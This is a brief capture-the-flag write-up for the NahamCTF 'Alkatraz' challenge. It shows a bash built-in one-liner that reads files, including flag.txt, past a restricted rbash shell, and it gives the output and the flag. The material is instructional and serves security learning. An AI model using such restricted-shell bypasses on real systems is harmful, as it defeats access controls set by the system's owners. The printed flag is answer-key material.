 ```yaml
---
title: "NahamCTF: Alkatraz"
categories:
  - NahamCTF  
tags:
  - NahamCTF  
---
```


*We are so restricted here in Alkatraz. Can you help us break out?*

---

For this challenge, we're given a very restricted shell when we connect the the nc listener. Most commands don't work, and we can't escape the shell by running bash, or sh. We can, however, use basic built-in bash commands to read the flag:

```
printf '%s\n' .* *; for i in $(printf '%s\n' .* *); do read var < $i && echo $var ; done

.
..
.bash_logout
.bashrc
.profile
flag.txt
/bin/rbash: line 32: read: read error: 0: Is a directory
/bin/rbash: line 32: read: read error: 0: Is a directory
# ~/.bash_logout: executed by bash(1) when login shell exits.
# ~/.bashrc: executed by bash(1) for non-login shells.
# ~/.profile: executed by the command interpreter for login shells.
flag{congrats_you_just_escaped_alkatraz}
```

**flag{congrats_you_just_escaped_alkatraz}**
